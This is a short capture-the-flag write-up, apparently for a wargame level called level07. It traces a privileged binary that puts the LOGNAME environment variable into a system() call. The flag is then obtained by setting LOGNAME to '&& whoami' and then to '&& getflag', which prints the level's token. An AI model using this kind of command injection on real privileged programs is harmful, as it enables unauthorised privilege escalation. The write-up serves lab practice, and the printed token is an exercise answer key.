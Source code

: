 In the folder **home** we find a binary ./level07, which, if we launch it, displays a message :
<pre><code>> ./level07
level07</code></pre>

We want to know what the binary does, so we use **ltrace** :
<pre><code>> ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620
getegid()= 2007
geteuid()= 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
getenv("LOGNAME")= "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280)= 18
system("/bin/echo level07 "level07
--- SIGCHLD (Child exited) ---
<... system resumed> )= 0
+++ exited (status 0) +++
</code></pre>

We observe that the binary makes a **getenv** and calls **system** to make a **echo**

We make a <code>env</code> to see the varibal **LOGNAME** :
<pre><code>> env
...
LOGNAME=level07
...
</code></pre>

We try to make an injection with a <code>whoami</code> to check that the injection works, but also to know the rights with which the binary is launched

<pre><code>> LOGNAME="&& whoami"
> ./level07
flag07
</code></pre>

> We observe **flag07**, which means that we can make a **getflag**

<pre><code>> LOGNAME="&& getflag"
> ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
</code></pre>

